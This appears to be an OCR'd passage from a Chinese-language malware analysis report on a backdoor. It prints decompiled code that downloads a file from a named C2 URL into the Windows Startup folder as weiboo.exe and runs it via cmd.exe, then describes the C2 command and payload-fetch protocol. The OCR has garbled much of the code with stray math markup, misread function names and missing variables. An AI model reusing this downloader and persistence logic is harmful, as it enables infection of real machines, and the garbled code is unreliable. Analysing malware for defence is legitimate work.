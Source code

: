 然后进入while循环，每次循环首先从配置数据中的另一个URL“hxxp://plainboardssixty.com/drive/chilli.php"下载文件保存在Startup目录中，如果下载成功则运行该文件。  

14 SHGetKnownFolderPath(&stru_4422C0, 0,0, &var_startup);// FOLDERID_Startup   
15 memset(String1，0,sizeof(String1));   
16 lstrcpyw(String1, var_startup);   
17 lstrcatW(String1, L"\\weiboo.exe");   
18 $=$ (const CHAR \*)(g_rsc_decode_data + 0x3EC);// http://plainboardssixty.com/drive/chilli.php   
19 lpString $\l=$ (const CHAR \*)(g_rsc_decode_data $^+$ 0x3EC);   
20 $\begin{array}{r l}{\mathbf{v}\bot}&{{}=}\end{array}$ lstrlenA((LPCSTR)(g_rsc_decode_data $^+$ 0x3EC));   
21 $\vee2=$ MultiByteToWideChar(OxFDE9u,0,v0，v1,0，θ);   
22 $v7=$ (WCHAR \*)GlobalAlloc(0x40u, $2^{*}\vee2+2$   
23 $\vee3=$ istrlenA(lpString);   
24 MultiByteToWideChar(0xFDE9u, 0, lpString, v3, v7, v2);   
25 if （!URLDownloadToFileW(0,v7，String1，0，θ））   
26 {   
27 v4 $=$ lstrlenW(String1);   
28 v5 $=$ (WCHAR \*)GlobalAlloc(0x40u，2 \*v4+64);   
29 wsprintfW(v5, L"/k \"%s\"", String1);   
30 CoInitializeEx(0,6u);   
31 ShellExecuteW(0, L"open",L"cmd.exe", v5, 0, 0);   
32 CoUninitialize();   
33   
34 GlobalFree(v7);   
35 return 0;   
36}   
00002490 MwDownloadExec:3 (403090) (Synchronized with IDA View-A, Hex View-1)  

之后与C2进行多次交互，下载后续载荷并运行，交互过程如下。  

(1）获取指令  

向C2发送"hwid $=$ %s&deploy $\bf\Pi=1\bf\Pi^{\prime\prime}$ ，获取返回指令。后门提供的指令只 有字符"1","2","3"三种，三种指令功能均为获取后续载荷并运行。  

312 WsprintfA(v39, v43, g_encode_machine_guid);/ / hwid=%s&deploy=1   
313 memset(v129,0, sizeof(v129));   
314 v45 $=$ istrlenA(v39);   
315 MwPostRequest(v39，v45，(int)v129，0x1000u);   
316 GlobalFree(v39);   
317 if （lstrcmpA(v129，"1"）)   
318 {   
319 if（lstrcmpA(v129，"2"）)   
320   
321 if（!lstrcmpA(v129,L"3"））   
322   
323 v93 = \*((_DWORD \*)v35 + 105);   
324] v121[0] $=$ 0xF8652984;  

(2）获取包含后续载荷的压缩包名称和解压密码  

选择具体指令后，向C2发送"hwid $=$ %s&deploy $=$ %d&bakmout $=$ 1"，hwid字段仍为编码后的Machine GUID，而deploy字段对应所选指令 数字。  

此次响应消息为JSON字符串，包含name和pass两个字段，分别对应压缩包名称和解压密码。  
